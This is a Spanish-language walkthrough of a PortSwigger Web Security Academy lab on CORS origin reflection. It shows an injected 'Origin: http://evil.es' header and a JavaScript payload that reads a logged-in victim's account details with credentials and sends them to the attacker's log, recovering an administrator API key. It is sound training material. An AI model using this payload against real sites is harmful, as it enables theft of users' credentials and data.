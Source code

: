```yaml
---
icon: arrow-progress
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PortSwigger - CORS vulnerability with basic origin reflection

Primero veremos una pagina web en la que tendremos que loguearnos con las credenciales que nos proporcionan:

```
User: wiener
Pass: peter
```

Una vez dentro veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos al `HTTP History` de `BurpSuite` veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En esta parte de aqui, si nos vamos a la respuesta del servidor, veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que está esta linea:

```
Access-Control-Allow-Credentials: true
```

Por lo que ya nos esta dando una pista de que se puede inyectar un `Origin:` en la cabecera de la peticion, vamos a probarlo haciendo lo siguiente, pero antes lo enviaremos al `Repeater` para hacer nuestras pruebas con `Ctrl+R`:

```
GET /accountDetails HTTP/2
Host: 0ac200ae03914ae783adeb10005b0068.web-security-academy.net
Cookie: session=cqk6PNNi2yuPlScrp8epStylUJ6NSM5Q
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Origin: http://evil.es

```

Tiene que quedar algo asi como se muestra en lo anterior, ahora si lo enviamos y vemos la respuesta del servidor, veremos algo asi:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando, por que estamos viendo lo siguiente:

```
Access-Control-Allow-Origin: http://evil.es
Access-Control-Allow-Credentials: true
```

Por lo que esta confiando en el link que le estamos inyectando en el `Origin`, ahora vamos a darle al boton llamado `Go to exploit server` para emular nuestro servidor atacante y realizar el `exploit` contra el usuario victima que este logueado, veremos este apartado:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

En la parte de `Body` tendremos que meter el `payload` para poder capturar la informacion del usuario y obtener el `TOKEN` del mismo, vamos a poner lo siguiente:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','<PETICION_VULNERABLE>',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora vamos a obtener la `peticion` vulnerable donde llevamos al `repeater` antes con `BurpSuite` copiandola, para asi insertarla ahi en ese `payload` y poder capturar el `TOKEN` del usuario que este logueado.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Y veremos algo asi:

```
URL = https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails
```

Esto lo meteremos en nuestro `payload` y tendremos que tener algo asi:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora para probar el `exploit` le daremos a `Store` y despues `Deliver exploit to victim` y nos vamos a los `logs` dandole a `Access log`, con esto veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

Veremos que hay un `/log?key=` que tiene el nombre de `administrador` por lo que vemos ha funcionado, vamos a obtener el valor entero que sera este:

```
/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk%22,%20%20%22sessions%22:%20[%20%20%20%20%22jyoMkcVXMOZ22RmElbHuQBqps91se3Rf%22%20%20]}
```

Ahora lo decodificaremos y veremos lo siguiente:

```
{  "username": "administrator",  "email": "",  "apikey": "cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk",  "sessions": [    "jyoMkcVXMOZ22RmElbHuQBqps91se3Rf"  ]}
```

Vemos que el `APIKey` del usuario `administrador` es:

```
cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk
```

Ahora para validarlo le daremos a `Submit Solution` e introducimos ese `APIKey` con esto ya habremos terminado el `LAB`.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
